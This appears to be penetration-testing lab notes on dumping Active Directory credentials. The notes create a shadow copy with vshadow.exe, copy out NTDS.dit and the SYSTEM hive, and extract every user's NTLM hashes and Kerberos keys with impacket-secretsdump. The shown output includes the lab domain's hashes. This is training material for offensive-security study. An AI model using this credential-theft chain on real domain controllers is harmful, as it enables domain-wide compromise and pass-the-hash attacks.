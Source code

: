 ```yaml
---
description: >-
  A Shadow Copy, also known as Volume Shadow Service (VSS) is a Microsoft backup
  technology that allows creation of snapshots of files or entire volumes.
---
```


# Shadow Copies



## Recap

To manage volume shadow copies, the Microsoft signed binary _vshadow.exe_ is offered as part of the Windows SDK. Domain admins have the ability to abuse the vshadow utility to create a snapshot of the Active Directory Database **NTDS.dit**.

Once we've obtained **NTDS.dit** we can extract every single user credential offline on our Kali host.





## Attack



### Create Snapshot

From an elevates shell we can use the **vshadow.exe** command and create a backup of the Active Directory Database.

```powershell
C:\Tools>vshadow.exe -nw -p  C:

VSHADOW.EXE 3.0 - Volume Shadow Copy sample client.
Copyright (C) 2005 Microsoft Corporation. All rights reserved.


(Option: No-writers option detected)
(Option: Create shadow copy set)
- Setting the VSS context to: 0x00000010
Creating shadow set {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5} ...
- Adding volume \\?\Volume{bac86217-0fb1-4a10-8520-482676e08191}\ [C:\] to the shadow set...
Creating the shadow (DoSnapshotSet) ...
(Waiting for the asynchronous operation to finish...)
Shadow copy set succesfully created.

List of created shadow copies:


Querying all shadow copies with the SnapshotSetID {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5} ...

* SNAPSHOT ID = {c37217ab-e1c4-4245-9dfe-c81078180ae5} ...
   - Shadow copy Set: {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5}
   - Original count of shadow copies = 1
   - Original Volume name: \\?\Volume{bac86217-0fb1-4a10-8520-482676e08191}\ [C:\]
   - Creation Time: 9/19/2022 4:31:51 AM
   - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
   - Originating machine: DC1.corp.com
   - Service machine: DC1.corp.com
   - Not Exposed
   - Provider id: {b5946137-7b9f-4925-af80-51abd60b20d5}
   - Attributes:  Auto_Release No_Writers Differential


Snapshot creation done.
```



### Moving the Database file.

The next step is to copy the shadow copy to the C:\ root directory and get ready for ex-filtration.

```powershell
C:\Tools>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
   1 file(s) copied.
```

### Save System Hive

The last step before ex-filtration is to save the SYSTEM hive from the Windows Registry.

```
C:\>reg.exe save hklm\system c:\system.bak
The operation completed successfully.
```



### Extracting Credentials

Once we've succesfully ex-filtrated the database back to our Kali host we can use impacket to extract all the credentials.

```shell-session
kali@kali:~$ impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xbbe6040ef887565e9adb216561dc0620
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 98d2b28135d3e0d113c4fa9d965ac533
[*] Reading and decrypting hashes from ntds.dit.bak
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC1$:1000:aad3b435b51404eeaad3b435b51404ee:eda4af1186051537c77fa4f53ce2fe1a:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1693c6cefafffc7af11ef34d1c788f47:::
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
stephanie:1104:aad3b435b51404eeaad3b435b51404ee:d2b35e8ac9d8f4ad5200acc4e0fd44fa:::
jeff:1105:aad3b435b51404eeaad3b435b51404ee:2688c6d2af5e9c7ddb268899123744ea:::
jeffadmin:1106:aad3b435b51404eeaad3b435b51404ee:e460605a9dbd55097c6cf77af2f89a03:::
iis_service:1109:aad3b435b51404eeaad3b435b51404ee:4d28cf5252d39971419580a51484ca09:::
WEB04$:1112:aad3b435b51404eeaad3b435b51404ee:87db4a6147afa7bdb46d1ab2478ffe9e:::
FILES04$:1118:aad3b435b51404eeaad3b435b51404ee:d75ffc4baaeb9ed40f7aa12d1f57f6f4:::
CLIENT74$:1121:aad3b435b51404eeaad3b435b51404ee:5eca857673356d26a98e2466a0fb1c65:::
CLIENT75$:1122:aad3b435b51404eeaad3b435b51404ee:b57715dcb5b529f212a9a4effd03aaf6:::
pete:1123:aad3b435b51404eeaad3b435b51404ee:369def79d8372408bf6e93364cc93075:::
jen:1124:aad3b435b51404eeaad3b435b51404ee:369def79d8372408bf6e93364cc93075:::
CLIENT76$:1129:aad3b435b51404eeaad3b435b51404ee:6f93b1d8bbbe2da617be00961f90349e:::
[*] Kerberos keys from ntds.dit.bak
Administrator:aes256-cts-hmac-sha1-96:56136fd5bbd512b3670c581ff98144a553888909a7bf8f0fd4c424b0d42b0cdc
Administrator:aes128-cts-hmac-sha1-96:3d58eb136242c11643baf4ec85970250
Administrator:des-cbc-md5:fd79dc380ee989a4
DC1$:aes256-cts-hmac-sha1-96:fb2255e5983e493caaba2e5693c67ceec600681392e289594b121dab919cef2c
DC1$:aes128-cts-hmac-sha1-96:68cf0d124b65310dd65c100a12ecf871
DC1$:des-cbc-md5:f7f804ce43264a43
krbtgt:aes256-cts-hmac-sha1-96:e1cced9c6ef723837ff55e373d971633afb8af8871059f3451ce4bccfcca3d4c
krbtgt:aes128-cts-hmac-sha1-96:8c5cf3a1c6998fa43955fa096c336a69
krbtgt:des-cbc-md5:683bdcba9e7c5de9
...
[*] Cleaning up...
```

We managed to obtain NTLM hashes and Kerberos keys for every AD user, which can now be further cracked or used as-is through pass-the-hash attacks.
